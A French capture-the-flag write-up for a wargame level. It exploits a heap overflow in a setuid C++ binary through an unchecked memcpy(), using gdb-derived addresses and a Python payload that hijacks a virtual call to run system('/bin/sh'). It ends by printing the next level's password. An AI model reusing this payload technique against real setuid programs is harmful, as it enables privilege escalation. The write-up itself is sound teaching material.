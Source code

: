Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2009(level9) gid=2009(level9) groups=2009(level9),100(users)
/home/user/level9
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level9 :

```bash
$ ./level9
$
$ ./level9 da
$
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=563ef243-714b-4c51-a5a5-ecc13358fab5) et en extrait une version probable du code :


```c++
class N
{
    public:
        N(int x) : number(x)
        {
        }

        void setAnnotation(char *input) // <----2 writes into the 100 bytes buffer with a user defined limit = heap overflow
        {
            memcpy(annotation, input, strlen(input)); 
        }

        virtual int operator+(N &some)
        {
            return number + some.number;
        }

        virtual int operator-(N &some)
        {
            return number - some.number
        }

    private:
        char annotation[100]; // <--------------1 100 bytes buffer declared here
        int number;
};

int main(int argc, char **argv)
{
	if (argc <= 1)
        exit(1);

	N *five = new N(5); // <--------------------3 first reference
	N *six = new N(6);

	N &fiveref = *five // <---------------------4 second reference
    N &sixref = *six;

	fiveref.setAnnotation(argv[1]);

	return fiveref + sixref; // <---------------5 N is evaluated and will double jump to Ret2Libc due to the overflow
}
```
Oh... Il semble qu'on ai à faire à du `C++` ici.
Cette reconstitution s'appuie principalement sur la décompilation par `Hexray` en unifiant l'ensemble dans une `classe` nommée `N`.

A priori, pas d'appel à `bin/sh` dans le code, il va donc me falloir utiliser l'une des méthodes des premiers niveaux, notamment celle d'exécution arbitraire de fonction dans la `libc` (`Ret2Libc`), si `C++` me le permet.

La seule vulnérabilité que j'observe dans cette reconstitution serait `memcpy()`. Ici, `memcpy()` ne s'assure pas que l'annotation passée par `argv[1]` rentre dans le buffer de `100` déclaré par la structure N lorsqu'elle utilise `setAnnotation()`.

Il serait donc possible ici alors de ré-écrire la valeur de retour de la fonction `setAnnotation()` afin qu'elle pointe, à la manière du `level2`, sur un appel arbitraire à `system()`, auquel nous pourrons demander d'exécuter `bin/sh`. Cependant, il faut noter la double référence présente dans le code source, il faudra faire donc deux "saut" : il ne sera pas possible d'appeller `system()` directement à l'overflow à cause de la dé-référence. 

On peut observer cette spécificité avec `gdb` :

```h
...
   0x08048693 <+159>:   call   *%edx
...
```

Une façon d'y pallier serait que l'overflow fasse pointer sur le début d'`annotation`, lui même contenant l'appel à `system()`.

Je cherche d'abord l'adresse de `system()` avec `gdb` :

```h
$ gdb ./level9
(gdb) disas main
    ...
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret

(gdb) break *main+165
Breakpoint 1 at 0x8048699

(gdb) set args dab

(gdb) r
Starting program: /home/user/level9/level9 dab

Breakpoint 1, 0x08048699 in main ()

(gdb) print system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

Je détermine ensuite le padding nécessaire pour l'overflow :

```bash
$ ./level9 `python -c 'print("\x90" * 100)'`
$ ./level9 `python -c 'print("\x90" * 200)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 150)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 125)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 110)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 105)'`
$ ./level9 `python -c 'print("\x90" * 108)'`
$ ./level9 `python -c 'print("\x90" * 109)'`
Segmentation fault (core dumped)
```

En rétrospecte, je comprend pourquoi je trouve que l'overflow est à 108 bytes : plus haut, j'ai déterminé que le buffer `annotation` était de 100 bytes, et qu'`Hexray` le placait à `ebp-8`, mais aussi, et plus spécifiquement, qu'il était déclaré ici : `v3 = (N *)operator new(0x6Cu);` à 108 bytes.
Cela corrèle donc avec le segfault observé au 109ème `NOP` passé dans les test ci-dessus.

Il me faut donc trouver quelle est l'adresse qui correspond au début de mon payload infecté lorsqu'il est utilisé par `setAnnotation()`, si la première adresse de l'overflow pointe vers le début du payload, alors le programme exécutera ensuite le payload, et donc `system()` auquel je pourrais passer `bin/sh` comme argument.

Je me penche sur `gdb` pour trouver l'adresse du début de l'array `annotation`.

Je peux trouver l'adresse de `annotation` en inférant que `%eax` la contiendra au retour de `setAnnotation()` car `memcpy()`[retourne son premier argument](https://pubs.opengroup.org/onlinepubs/7908799/xsh/memcpy.html), et il sera donc stocké dans `%eax`.

Je peux lancer le binaire, mettre un break au retour de `setAnnotation()`, puis analyser la valeur de `%eax` :

```h
(gdb) b *main+136
Breakpoint 1 at 0x804867c

(gdb) set args dab

(gdb) r
Starting program: /home/user/level9/level9 dab

Breakpoint 1, 0x0804867c in main ()
(gdb) info registers
eax            0x804a00c        134520844
ecx            0x6164   24932
edx            0x804a00f        134520847
ebx            0x804a078        134520952
...
```

Je trouve donc l'adresse : `0x804a00c`.

Avec ces 3 informations :

- Adresse de `system()` -> 0xb7d86060
- Overflow à 108 bytes
- Adresse de `annotation` -> 0x804a00c

J'essaye ce paytl
Je peux créer un payload infecté :

```python
#                |    system()    |         | NOP sled |    | annotation[0] |         | system(args) |    
python -c 'print("\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh")'
```

Ce payload aura pour effet d'overflow après le padding de 104 bytes (108 - l'adresse de `system()`), trouvera une adresse qui pointe sur le début d'`annotation`, ce qui exécutera le début de `annotation`, et donc `system()`, qui prendra comme argument le `NOP sled` (le padding), l'adresse qui pointait vers `annotation`, puis pour ignorer le 'bruit' précédent, passera `;bin/sh` avec un ';' afin que l'instruction précédente soit simplement un échec et que le shell soit ensuite exécuté.

Je teste mon payload :

```bash

$ ./level9 $(python -c 'print("\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh")')
sh: 1:
       : not found
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```







